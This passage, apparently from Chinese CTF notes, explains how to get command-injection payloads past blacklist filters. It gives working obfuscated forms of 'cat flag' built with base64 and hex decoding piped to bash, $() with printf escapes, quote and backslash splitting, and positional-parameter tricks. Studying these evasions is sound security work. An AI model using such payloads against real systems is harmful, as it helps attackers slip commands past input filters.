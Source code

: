 ```
cat flag的base64编码为Y2F0IGZsYWc=
```

![image-20210721173442927](images/11.png)

一定要加反引号,而且还有对`base64`进行解码`base64 -d`

若不加反引号,则需要加bash命令

![image-20210721173635820](images/12.png)

### 利用16进制编码绕过

```
echo "63617420666c6167" | xxd -r -p|bash
```

![image-20220813101711578](images/13.png)

### $()绕过

$() 会将包裹的字符作为命令

```
$(printf "\x63\x61\x74\x20\x66\x6c\x61\x67")
`printf "\x63\x61\x74\x20\x66\x6c\x61\x67"`
```

![image-20220813101803653](images/14.png)

### 利用单引号,双引号绕过

有些用黑名单禁用了cat,flag等字符,可以用单引号双引号绕过

![image-20210721173753772](images/15.png)

### 利用\绕过

黑名单还可以用反斜杠来绕过对cat等的禁用

![image-20210721173914180](images/16.png)

### 利用`$1,$2,$@`绕过

![image-20210721174027224](images/17.png)

`$3`,`$4`这些也可以

### 利用花括号笛卡尔积绕过

花括号

1. 花括号可以表示固定变量名
